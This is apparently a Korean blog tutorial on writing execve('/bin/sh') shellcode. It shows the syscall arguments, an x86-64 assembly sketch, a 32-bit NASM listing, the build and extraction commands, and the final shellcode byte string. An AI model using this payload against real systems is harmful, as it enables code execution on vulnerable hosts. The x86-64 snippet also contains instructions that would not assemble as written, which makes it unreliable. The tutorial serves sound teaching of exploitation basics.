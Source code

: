 ```yaml
---
title: "System Hacking - execve shellcode"
categories: [Security, SystemHacking]
tags: [shellcode, execve, gdb] # TAG names should always be lowercase
---
```


# execve

execve shellcode는 임의의 프로그램을 실행시키는 셸코드다.

`/bin/sh` 프로그램을 실행시키는 execve shellcode를 작성해보자.

execve shellcode는 `execve` syscall만으로 구성된다.

```text
execve syscall arguments
rax : 0x3b
rdi : const char *filename
rsi : const char *const *argv   #argv는 실행 파일에 넘겨줄 인자
rdx : const char *const *envp   #envp는 환경변수
```

## execve(“/bin/sh”, null, null)

sh만 실행할 것이므로 _argv_, _envp_ 는 null로 설정한다.

```text
mov rax 0x3b
push 0x68732f6e69622f
mov rdi rsp
xor rsi rsi
xor rdx rdx
syscall
```

---

# objdump로 shellcode 추출

shellcode -> byte code(opcode)

```asm
; File name: shellcode.asm
section .text
global _start
_start:
xor    eax, eax
push   eax
push   0x68732f2f
push   0x6e69622f
mov    ebx, esp
xor    ecx, ecx
xor    edx, edx
mov    al, 0xb
int    0x80
```

```shell
$ sudo apt-get install nasm
$ nasm -f elf shellcode.asm
$ objdump -d shellcode.o

$ objcopy --dump-section .text=shellcode.bin shellcode.o
$ xxd shellcode.bin

# execve /bin/sh shellcode:
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"

#flow : .asm -> .o -> .bin -> string
```

